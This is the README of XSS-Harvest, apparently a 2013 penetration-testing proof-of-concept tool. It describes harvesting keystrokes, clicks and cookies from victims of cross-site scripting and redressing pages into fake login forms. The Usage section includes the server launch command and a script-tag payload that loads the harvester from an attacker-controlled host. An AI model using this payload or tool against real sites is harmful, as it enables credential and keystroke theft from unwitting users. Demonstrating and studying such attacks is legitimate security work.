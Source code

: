 XSS-Harvest
===========

* Author: geoff.jones@cyberis.co.uk
* Copyright: Cyberis Limited 2013
* License: GPLv3 (See LICENSE)
* Version: 0.4

XSS-Harvest - a proof of concept harvesting tool for demonstrating the real power of XSS attacks

## About
XSS-Harvest is multi-threaded pre-forking web server written in Perl, and requires no dependencies other than a couple of common Perl modules; you do not need a web server or database to use this tool. Before going into the detail, I'll list the high level functionality below:

* Infection script adds relevant event listeners (keystrokes, onload() and mouse clicks) to the vulnerable page and sets up communication with the XSS-Harvest server.
* Any key entered will be sent covertly to the server.
* Any mouse click performed will be analysed and the data covertly sent to the server.
* Optionally 'redress' the vulnerable page to display a different page on the same subdomain - e.g. a login form.
* If redressing the victim's browser, allow subsequently loaded pages to be also 'infected' - assuming they don't break the same-origin policy (i.e. they're on the same subdomain).
* Keeps track of victims for the lifetime of the XSS-Harvest cookie (future visits are recognised as a returning victim).
* Each victim has a separate history file containing all events, cookies and keystrokes. 
* Server console displays real time data received (due to multi-threaded nature, keystrokes are displayed as '.' characters to avoid confusion).
* Tested in IE6-9 (reflected XSS protection in IE9 will limit exploitation to stored XSS only in most cases), FF5, Chrome and various mobile browsers (Safari and Android). Please let me know your success with other browsers.
* Overcomes browser oddities, such as Internet Explorer throttling requests to the same URL when exfiltrating keystrokes.

## Dependencies
Requires the following dependencies:
```perl
use HTTP::Server::Simple::CGI;
use Digest::MD5;
use Time::Local;
use Getopt::Std;
use Net::Server::PreFork;
```

### Ubuntu/Debian install

    sudo apt-get install libhttp-server-simple-perl libdigest-md5-file-perl libtime-local-perl libnet-server-perl

### OSX Install 

    sudo cpan install HTTP::Server::Simple::CGI
    sudo cpan install Digest::MD5
    sudo cpan install Digest::Time::Local
    sudo cpan install Getopt:Std
    sudo cpan install Net::Server::Prefork

## Usage
Start server (with redress:)

```bash
./xss-harvest.pl -l -r http://vulnerablepage.local/login.html
```

XSS:
```html
<script src="http://<serverip>:<serverport>/i"></script>
```
